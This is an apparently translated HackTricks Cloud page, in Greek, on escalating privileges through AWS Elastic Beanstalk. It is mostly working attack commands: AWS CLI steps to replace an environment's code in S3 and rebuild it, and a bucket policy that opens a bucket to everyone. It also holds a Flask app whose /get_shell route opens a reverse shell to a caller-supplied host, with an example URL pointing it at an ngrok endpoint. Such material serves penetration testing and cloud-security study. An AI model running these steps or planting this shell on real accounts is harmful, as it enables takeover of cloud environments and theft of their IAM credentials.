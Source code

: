 # AWS - Elastic Beanstalk Privesc

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Elastic Beanstalk

Περισσότερες **πληροφορίες σχετικά με το Elastic Beanstalk** στο:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Για να εκτελέσετε ευαίσθητες ενέργειες στο Beanstalk, θα πρέπει να έχετε **πολλές ευαίσθητες άδειες σε πολλές διάφορες υπηρεσίες**. Μπορείτε να ελέγξετε, για παράδειγμα, τις άδειες που δίνονται στο **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, άδειες εγγραφής S3 & πολλές άλλες

Με **άδειες εγγραφής στο S3 bucket** που περιέχει τον **κώδικα** του περιβάλλοντος και άδειες για **ανακατασκευή** της εφαρμογής (χρειάζεται `elasticbeanstalk:RebuildEnvironment` και μερικές ακόμα σχετικές με `S3`, `EC2` και `Cloudformation`), μπορείτε να **τροποποιήσετε** τον **κώδικα**, να **ανακατασκευάσετε** την εφαρμογή και την επόμενη φορά που θα αποκτήσετε πρόσβαση στην εφαρμογή, θα **εκτελείται ο νέος σας κώδικας**, επιτρέποντας στον επιτιθέμενο να απειλήσει την εφαρμογή και τις διαπιστευτήρια του ρόλου IAM της.

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, και περισσότερα...

Οι παραπάνω συν τα δικαιώματα **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** και **`elasticloadbalancing`** είναι απαραίτητα για να δημιουργηθεί ένα αρχικό σενάριο Elastic Beanstalk από το μηδέν.

* Δημιουργία εφαρμογής AWS Elastic Beanstalk:

```bash
aws elasticbeanstalk create-application --application-name MyApp
```

* Δημιουργήστε ένα περιβάλλον AWS Elastic Beanstalk ([**υποστηριζόμενες πλατφόρμες**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

Εάν έχει ήδη δημιουργηθεί ένα περιβάλλον και **δεν θέλετε να δημιουργήσετε ένα νέο**, μπορείτε απλά να **ενημερώσετε** το υπάρχον.

* Συσκευάστε τον κώδικα της εφαρμογής και τις εξαρτήσεις σας σε ένα αρχείο ZIP:

```python
zip -r MyApp.zip .
```

* Μεταφορτώστε το αρχείο ZIP σε ένα κάδο S3:

```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```

* Δημιουργήστε μια έκδοση εφαρμογής AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Αναπτύξτε την έκδοση της εφαρμογής στο περιβάλλον AWS Elastic Beanstalk σας:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

Καταρχάς, πρέπει να δημιουργήσετε ένα πραγματικό περιβάλλον **Beanstalk** με τον **κώδικα** που θέλετε να εκτελέσετε στον **θύμα** ακολουθώντας τα **προηγούμενα βήματα**. Πιθανώς ένα απλό **zip** που περιέχει αυτά τα **2 αρχεία**:

{% tabs %}
{% tab title="undefined" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Αφού έχετε **το δικό σας Beanstalk περιβάλλον που εκτελεί** το rev shell σας, είναι ώρα να το **μεταφέρετε** στο περιβάλλον του **θύματος**. Για να το κάνετε αυτό, πρέπει να **ενημερώσετε την πολιτική του Bucket** του S3 bucket του Beanstalk σας, έτσι ώστε το **θύμα να μπορεί να το προσπελάσει** (Σημειώστε ότι αυτό θα **ανοίξει** το Bucket σε **ΟΛΟΥΣ**):

```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```

{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528
```
{% endcode %}

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
